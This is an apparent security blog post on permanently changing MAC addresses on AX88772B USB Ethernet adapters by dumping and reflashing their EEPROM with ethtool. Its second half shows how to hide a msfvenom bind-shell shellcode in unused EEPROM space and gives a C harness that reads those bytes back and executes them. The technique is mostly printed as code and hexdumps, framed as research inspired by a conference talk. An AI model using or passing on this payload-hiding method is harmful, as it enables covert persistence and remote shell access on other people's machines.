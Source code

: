 ```yaml
---
layout: posts
title:  "MAC Address Changing Revisited"
date:   2022-05-22 00:00:00 -0600
categories: eeprom nic
author: Nicholas Starke
---
```


My new friend [Gundiuc Oleg](https://twitter.com/GundiucO) reached out to me regarding [an older blog post I wrote](/networking/mac-address/ethtool/2019/09/21/ethtool-change-mac-address-permanently.html) about permanently changing MAC addresses on NICs.  Gundiuc was targeting the AX88772B chipset on USB ethernet adapters.  If you're interested in following along, I used [this USB Ethernet adapter](https://www.amazon.com/gp/product/B00MYT481C) for testing (no affiliate link - I don't make any money if you buy one).

The purpose of this article is to demonstrate some techniques for permanently changing MAC addresses on this chipset in more detail than the previous post.  

The first thing we need to do is identify the NIC "magic" quad-word.  The [Linux kernel driver for ASIX based NICs](https://github.com/torvalds/linux/blob/master/drivers/net/usb/asix.h#L158) tells us this value is **0xdeadbeef**. We will use this value to write data to the EEPROM on the chipset. For reference, my NIC is id'd as **enx000ec646478d**

Now, when we run **ethtool -e enx000ec646478d** we are greeted with the following output:

```
Offset		Values
------		------
0x0000:		15 8f ec 71 20 12 29 27 00 0e c6 46 47 8d 09 04 
0x0010:		60 22 71 12 19 0e 3d 04 3d 04 3d 04 3d 04 7c 05 
0x0020:		00 06 10 e0 54 24 40 12 49 27 ff ff 00 00 ff ff 
0x0030:		ff ff 0e 03 30 00 30 00 30 00 33 00 38 00 37 00 
0x0040:		12 01 00 02 ff ff 00 40 95 0b 20 77 01 00 01 02 
0x0050:		03 01 09 02 27 00 01 01 04 a0 7d 09 04 00 00 03 
0x0060:		ff ff 00 07 07 05 81 03 08 00 0b 07 05 82 02 00 
0x0070:		02 00 07 05 03 02 00 02 00 ff 04 03 30 00 ff ff 
0x0080:		12 01 00 02 ff ff 00 08 95 0b 20 77 01 00 01 02 
0x0090:		03 01 09 02 27 00 01 01 04 a0 08 09 04 00 00 03 
0x00a0:		ff ff 00 07 07 05 81 03 08 00 a0 07 05 82 02 40 
0x00b0:		00 00 07 05 03 02 40 00 00 dd ff ff aa aa bb bb 
0x00c0:		22 03 41 00 53 00 49 00 58 00 20 00 45 00 6c 00 
0x00d0:		65 00 63 00 2e 00 20 00 43 00 6f 00 72 00 70 00 
0x00e0:		2e 00 12 03 41 00 58 00 38 00 38 00 37 00 37 00 
0x00f0:		32 00 41 00 ff ff ff ff ff ff ff ff ff ff ff ff 
0x0100:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0110:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0120:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0130:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0140:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0150:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0160:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0170:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0180:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0190:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01a0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01b0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01c0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01d0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01e0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01f0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Now this is a nice hexdump of the EEPROM data for human consumption, but if we want the raw binary bytes, we need to run **ethtool** like so:

```
# ethtool -e enx000ec646478d raw on > eeprom.bin
```

This will give us the EEPROM dump as binary data.  We can then use our favorite hex editor to change the six byte MAC address at offset **0x8** into the EEPROM dump.  A quick note, the NIC chipset [expects data to be read](https://github.com/torvalds/linux/blob/master/drivers/net/usb/asix_common.c#L693) in **0x10** byte incremenets, so we are not able to write directly to **0x8**, we must read the first 0x10 bytes and modify the six bytes starting at 0x8.  My recommendation is to read out the full contents of the EEPROM then use a hex editor to modify just the bytes you wish to modify.  Keep in mind the full EEPROM dump length [must equal](https://github.com/torvalds/linux/blob/master/drivers/net/usb/asix.h#L159) **0x200** (decimal 512).  I mention this because sometimes when I use vim in xxd mode, the conversion back to binary results in an extra newline character being appended to the end of whatever binary data I am working with.  So just as a sanity check, run **ls -l eeprom.bin** to ensure the file size is **512**.

After we have made our modifications to eeprom.bin, we need to flash those changes to the chipset.  The command to do so in this instance is:

```
# ethtool -E enx000ec646478d magic 0xdeadbeef < eeprom.bin
```

# Hiding payloads

There was a [great presentation](https://www.youtube.com/watch?v=KDo3CExd8Ns) at DEFCON 28 by Jesse Michael and Mickey Shkatov about hiding binary payloads in firmware.  This firmware chipset can be used to accomplish this goal.  Take for example the output of the following command:

```
$ msfvenom --payload linux/x86/shell/bind_tcp | xxd
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 111 bytes

00000000: 6a7d 5899 b207 b900 1000 0089 e366 81e3  j}X..........f..
00000010: 00f0 cd80 31db f7e3 5343 536a 0289 e1b0  ....1...SCSj....
00000020: 66cd 8051 6a04 546a 026a 0150 9789 e16a  f..Qj.Tj.j.P...j
00000030: 0e5b 6a66 58cd 8089 f883 c414 595b 5e52  .[jfX.......Y[^R
00000040: 6802 0011 5c6a 1051 5089 e16a 6658 cd80  h...\j.QP..jfX..
00000050: d1e3 b066 cd80 5743 b066 8951 04cd 8093  ...f..WC.f.Q....
00000060: b60c b003 cd80 87df 5bb0 06cd 80ff e1    ........[......
```

This is a 111 byte payload. We can make the last byte a NOP (0x90) in order to conform to the 16-byte alignment constraint.  That would result in:

```
00000000: 6a7d 5899 b207 b900 1000 0089 e366 81e3  j}X..........f..
00000010: 00f0 cd80 31db f7e3 5343 536a 0289 e1b0  ....1...SCSj....
00000020: 66cd 8051 6a04 546a 026a 0150 9789 e16a  f..Qj.Tj.j.P...j
00000030: 0e5b 6a66 58cd 8089 f883 c414 595b 5e52  .[jfX.......Y[^R
00000040: 6802 0011 5c6a 1051 5089 e16a 6658 cd80  h...\j.QP..jfX..
00000050: d1e3 b066 cd80 5743 b066 8951 04cd 8093  ...f..WC.f.Q....
00000060: b60c b003 cd80 87df 5bb0 06cd 80ff e190  ........[.......
```

 From the EEPROM dump, all bytes past 0x140 (320 decimal) are null bytes. We could write our msfvenom payload to offset 0x190.  Then the EEPROM dump would look like this:

 ```
0x0000:		15 8f ec 71 20 12 29 27 00 0e c6 46 47 8d 09 04 
0x0010:		60 22 71 12 19 0e 3d 04 3d 04 3d 04 3d 04 7c 05 
0x0020:		00 06 10 e0 54 24 40 12 49 27 ff ff 00 00 ff ff 
0x0030:		ff ff 0e 03 30 00 30 00 30 00 33 00 38 00 37 00 
0x0040:		12 01 00 02 ff ff 00 40 95 0b 20 77 01 00 01 02 
0x0050:		03 01 09 02 27 00 01 01 04 a0 7d 09 04 00 00 03 
0x0060:		ff ff 00 07 07 05 81 03 08 00 0b 07 05 82 02 00 
0x0070:		02 00 07 05 03 02 00 02 00 ff 04 03 30 00 ff ff 
0x0080:		12 01 00 02 ff ff 00 08 95 0b 20 77 01 00 01 02 
0x0090:		03 01 09 02 27 00 01 01 04 a0 08 09 04 00 00 03 
0x00a0:		ff ff 00 07 07 05 81 03 08 00 a0 07 05 82 02 40 
0x00b0:		00 00 07 05 03 02 40 00 00 dd ff ff aa aa bb bb 
0x00c0:		22 03 41 00 53 00 49 00 58 00 20 00 45 00 6c 00 
0x00d0:		65 00 63 00 2e 00 20 00 43 00 6f 00 72 00 70 00 
0x00e0:		2e 00 12 03 41 00 58 00 38 00 38 00 37 00 37 00 
0x00f0:		32 00 41 00 ff ff ff ff ff ff ff ff ff ff ff ff 
0x0100:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0110:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0120:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0130:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0140:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0150:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0160:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0170:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0180:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0190:		6a 7d 58 99 b2 07 b9 00 10 00 00 89 e3 66 81 e3 
0x01a0:		00 f0 cd 80 31 db f7 e3 53 43 53 6a 02 89 e1 b0 
0x01b0:		66 cd 80 51 6a 04 54 6a 02 6a 01 50 97 89 e1 6a 
0x01c0:		0e 5b 6a 66 58 cd 80 89 f8 83 c4 14 59 5b 5e 52 
0x01d0:		68 02 00 11 5c 6a 10 51 50 89 e1 6a 66 58 cd 80 
0x01e0:		d1e 3 b0 66 cd 80 57 43 b0 66 89 51 04 cd 80 93 
0x01f0:		b6 0c b0 03 cd 80 87 df 5b b0 06 cd 80 ff e1 90
 ```

 At this point, after this data is flashed to the NIC EEPROM, it is possible to use **ethtool** to retrieve the msfvenom payload and then execute it.  For this particular chipset, we have 192 (0xc0) bytes to store a payload.  That is from EEPROM offset 0x140 to the end of the EEPROM data at 0x200.  

 Here is some example C code to demonstrate how this works.

 ```c++
#include <stdio.h>
#include <stdlib.h>

#define SHELL_CODE_START 400
#define ETHTOOL_OUTPUT_LENGTH 512

int main(int argc, char **argv) {
    FILE *fp;
    unsigned char buffer[ETHTOOL_OUTPUT_LENGTH + 1];
    void(*shell_code)();

    fp = popen("ethtool -e enx000ec646478d raw on", "r");
    if (!fp) {
	    perror("popen");
    }

    fgets(buffer, sizeof(buffer), fp);
    
    pclose(fp);
    
    shell_code = (void(*)()) (buffer + SHELL_CODE_START);
    printf("running shell code\n");
    (shell_code)();

    return 0;
}
 ```

 This code will need to be compiled with gcc as such:

 ```
 $ gcc -o harness -m32 -z execstack harness.c
 ```

 The **-m32** is because the shellcode is **x86** targeted in the example above.

 The **-z execstack** is necessary because we are storing the shell code in a local variable, which is located on the stack.  Therefore, we are executing directly off the stack in this example.  This could be easily fixed by using **mmap** and executing from somewhere else in memory.

 Happy hacking!
